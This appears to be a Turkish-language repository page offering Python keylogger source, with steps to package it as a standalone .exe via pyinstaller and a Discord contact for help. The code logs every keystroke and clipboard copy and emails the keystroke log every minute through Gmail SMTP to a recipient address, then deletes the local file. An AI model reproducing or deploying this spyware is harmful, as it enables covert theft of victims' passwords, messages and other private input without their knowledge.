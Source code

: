 önecelikle terminali açıp :pip install pyinstaller yazın 

sonra codu exeye dönüstürmek için : pyinstaller --onefile your_script.py 

python code : 

    import smtplib
    from email.mime.multipart import MIMEMultipart
    from email.mime.text import MIMEText
    from pynput import keyboard
    from pynput import clipboard
    import os
    import time
    import schedule

    SMTP_SERVER = "smtp.gmail.com"
    SMTP_PORT = 587
    EMAIL_ADDRESS = "your_email@gmail.com"
    EMAIL_PASSWORD = "your_password"
    RECIPIENT_EMAIL = "recipient_email@gmail.com"

    tuş_sayıları = {}

    kopyalanan_metinler = open("kopyalanan_metinler.txt", "a")

    def on_press(key) :
    try :
    tuş = key.char  # Normal karakter tuşları
    except AttributeError :
    tuş = str(key)  # Diğer tuşlar(Shift, Ctrl, vs.)

    if tuş in tuş_sayıları :
    tuş_sayıları[tuş] += 1
    else:
    tuş_sayıları[tuş] = 1

    with open("basılan_tuşlar.txt", "a") as dosya :
    dosya.write(f"{tuş}\n")

    def on_copy(text) :
    kopyalanan_metinler.write(text + "\n")

    # E - posta gönderme fonksiyonu
    def send_email() :
    # E - posta oluşturma
    msg = MIMEMultipart()
    msg['From'] = EMAIL_ADDRESS
    msg['To'] = RECIPIENT_EMAIL
    msg['Subject'] = "Kullanıcı Aktiviteleri"

    # Metin belgesini e - posta içeriğine ekleme
    with open("basılan_tuşlar.txt", "r") as dosya :
    text = dosya.read()
    body = MIMEText(text)
    msg.attach(body)

    with smtplib.SMTP(SMTP_SERVER, SMTP_PORT) as server :
    server.starttls()
    server.login(EMAIL_ADDRESS, EMAIL_PASSWORD)
    server.send_message(msg)

    os.remove("basılan_tuşlar.txt")

    schedule.every(1).minutes.do(send_email)

    with keyboard.Listener(on_press = on_press) as listener1, clipboard.Listener(on_copy = on_copy) as listener2 :
    listener1.join()
    listener2.join()

    while True:
    schedule.run_pending()
    time.sleep(1)
   
    # Yardım için
    # Discord deimosthelegit 
    # https://discord.gg/4hF9rTBx
